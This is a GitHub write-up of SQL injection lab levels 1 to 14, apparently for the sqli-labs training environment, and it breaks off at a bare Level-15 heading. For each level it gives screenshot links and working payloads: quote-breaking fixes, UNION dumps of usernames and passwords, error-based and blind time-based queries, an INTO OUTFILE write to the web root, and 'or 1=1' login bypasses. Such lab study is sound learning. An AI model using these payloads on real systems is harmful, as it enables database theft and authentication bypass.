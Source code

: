 # SQLI-WRITEUPS                      
                                       
**Level-1**                                     
![Screenshot_2024-04-01_07-22-36](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e8e398cf-c59f-4afa-b0dc-b06c0115ac80)                                 
In this level the error caused in sql query is due to single quote. if we observe the above error we can find that by commenting after the quote we can fix the query.Then after we can send our queries to fetch data from the database.                            
![Screenshot_2024-04-01_18-11-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/bbf9bd63-589b-47b4-a09e-b6f9e82d7af0)                                      
**Error: '**              
**Fixing: '--+**                               
**Query:** *UNION SELECT 1,USERNAME,PASSWORD FROM USERS WHERE ID=3 LIMIT 1,1*                              
                               
**Level-2**                                                                           
![Screenshot_2024-04-01_18-21-55](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d640e76e-054f-4b61-95ee-33fa671211a6)                                
In this level actually there is no error by commenting out everything after the id it works fine and we cans end our queries to get data.             
**Error: No Error**                        
**Fixing: ?id=1--+**                            
**Query:** *UNION SELECT 1,GROUP_CONCAT(USERNAME),GROUP_CONCAT(PASSWORD) FROM USERS --+*                           
                                             
**Level-3**                                               
![Screenshot_2024-04-01_18-27-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/611e6831-0e37-4ce8-9a2e-357f2e991ee4)                    
In this level the error is due to single quote . we can fix the error by placing a single quote and parenthes and then by commenting out the remaing query will fix the error and help us to make our own queries                   
![Screenshot_2024-04-01_18-27-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/5bee9d0f-8034-4d8a-8f7b-c2f30bf37fac)                            
**Error:  '    id'   ')**                            
**Fixing:  ?id=1')--+**                      
                                    
**Level-4**                                              
![Screenshot_2024-04-01_19-24-34](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c9099fa5-993b-49a9-b45a-309da68b53bc)                                      
In this level the error is same as the previous level but doublequote is sued instead of single quote                  
![Screenshot_2024-04-01_19-25-32](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e3168cfb-ec4b-4325-8a6f-b3994b929071)                           
**Error:  "     id"    ")**            
**Fixing: ?id=1")--+**                  
                                        
**Level-5**                                                  
![Screenshot_2024-04-01_19-46-01](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/21045cbe-b293-417b-b07c-2665f819942c)                                 
In this level the webpage doesnot show any query results in the webpage so we cannot display query data in webpage . but it displays an error. using that we can send double query injection to give us the data in the error statement.                      
![Screenshot_2024-04-01_19-47-51](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/cda1b4f6-67c6-45f0-afb4-fe566d296049)                                 
**Error: ' id' '**                      
**Fixing: ?id=1'--+**              
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                         
                                       
**Level-6**                          
![Screenshot_2024-04-01_20-42-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5946ae-9b7b-45b5-9629-81427428fb28)                                 
In this level the error is same as level-5 but instead of single quotes double quotes is used in this level. After breaking and fixing the query the remaining part is same as Level-5        
![Screenshot_2024-04-01_20-42-28](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c43f3dc5-f442-4d16-8db7-9dcc551a67a2)                        
**Error: '"   id"   "'**                        
**Fixing: ?id=1"--+**                            
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                    
                                              
**Level-7**                              
![Screenshot_2024-04-01_21-08-16](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/4defc0be-6bc4-40e2-a0a7-755d7a94624f)                          
In this level if there is any error it doesnt display the exact error it will only display a error message . so we need to try for breaking and fixing the error using all error queries like singlequotes,doublequotes and parenthes. once it is breaked then we need to fix and write our query. After fixing the error we can write the dumpfile query to result the ouput in otherfille.This is also a semi blind injection.                                                       
![Screenshot_2024-04-01_21-10-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/41f5519a-8ef0-4c0c-8e5e-3af0a4f1947a)                          
**Error: (('   id '))   '))**                                         
**Fixing: ?id=1'))--+**                                           
**Query:** *union select 1,username,password from users into outfile "/var/www/html/Less-8/union.txt"*                              
                            
**Level-8**           
![Screenshot_2024-04-01_21-54-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/09a64795-b172-40d9-928c-75fba614f3d9)                              
In this level the webpage doesnot show any message even if we occur any error in the query . but if the query is successful we will get some msg. using this we can send boolean based sql queries. if the condition is true we will see the msg in webpage else we wont see any msg. This type of attacks is called blind boolean based sqli injection                        
![Screenshot_2024-04-01_21-55-40](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/70dc94ec-9503-4193-af3d-d004349921da)                 
**Error: '    id'   '**            
**Fixing:  ?id=1'--+**
**Query:** *AND (ascii(substr((SELECT password from users where username='Dumb'),1,1))>90)**                                    
- If the above condition is true then it returns 1 and then 1 and 1 becomes true so we will login.                         
                                     
**Level-9**                                    
![Screenshot_2024-04-01_22-25-20](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/3b601c1e-b74f-49ba-9dd4-48f0820d68e4)                              
In this level we cannot find any difference whether we enter correct id number or not always the message is same. We can try all error method and along with them we should use sleep, so that if one of the error is broken and fixed then used sleep(), then the webpage wont display the the conent for next n seconds that is defined in sleep().                         
![Screenshot_2024-04-01_22-26-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/908cd45d-43fb-4770-bb3e-51d2bd2909b3)                               
**Error: '    id'    '**                                                        
**Fixing:   ?id=1'--+**                                                       
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                               
                                 
**Level-10**                              
![Screenshot_2024-04-01_23-01-06](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/b92d685f-d9ff-4afa-a8ff-ced16d2c6194)                                   
This query is same as level-9. The only difference is instead of single quotes double quotes is used.              
![Screenshot_2024-04-01_23-01-29](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/86e378ce-89f7-4264-a247-b8dec8ff0486)                           
**Error: " id "  "**                                
**Fixing: ?id=1" --+**                                    
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                              
                                             
**Level-11**                       
![Screenshot_2024-04-01_23-44-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5b1d38-42d7-4bd9-b75d-5b70b706c773)                                           
In this level the username and password is sent in apost request. Once if we acheive breaking and fixing the query which helps us in retrieving data from database then we can pass any of the query using this. since it is displaying data on webpage we can use union attack, since it is displaying error in webpage we can user dobule query injections. we can use blind injection.                                               
![Screenshot_2024-04-01_23-45-52](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/7bfb5272-f289-4225-9c6d-ad146a67ab5b)                                                     
**Error: '   username'    '**              
**Fixing: username' or 1=1 #**                   
**Query:** *SELECT USERNAME,PASSWORD FROM USERS WHERE LIMIT 1,1*                   
                                  
**Level-12**                        
![Screenshot_2024-04-02_00-00-07](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c74f67f4-3a38-4922-8beb-6189d51f642a)                      
This level is same as the above level the only difference is while breaking the query we use a double quote and parenthes instead of single quote.                          
![Screenshot_2024-04-02_00-05-30](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/05d1f34d-ad8c-4223-aa24-df5c316cfe6c)                            
**Error: ("   username")    ")**              
**Fixing: username") or 1=1 #**                   
**Query:** *SELECT USERNAME,PASSWORD FROM USERS WHERE LIMIT 1,1*              
                                       
**Level-13**                
![Screenshot_2024-04-02_00-27-13](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d6464ae1-ba3c-448e-8008-da2c35ec4f13)                   
In this level after loging in it is not displaying the username and password . so here we need to make a double injection since it is displaying the entire error in the webpage.                         
![Screenshot_2024-04-02_00-36-02](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/1e94d644-c193-43ae-9299-8eb1b1d95193)                                   
**Error: ('    username')    ')**                
**Fixing: username') or 1=1 #**               
**Query:** *') union (select 1 from (select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a)b)#*                             
                                       
**Level-14**                
![Screenshot_2024-04-02_08-48-05](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/35cf5a35-e385-44f6-a0ba-d071a62f4858)                          
In this level the query can be broken by using combination of a singlequote and a doublequote. Then we can fix the error by commenting out rrst of the thing.                       
![Screenshot_2024-04-02_08-49-31](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/360915bc-af1e-4a72-bbbd-1e90f062db33)                                          
**Error: '"     username'"     '"**                    
**Fixing: username'" or 1=1 #**                         
**Query:" *union (select 1,1 from (select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a)b)#*                     
                                      
**Less-15**
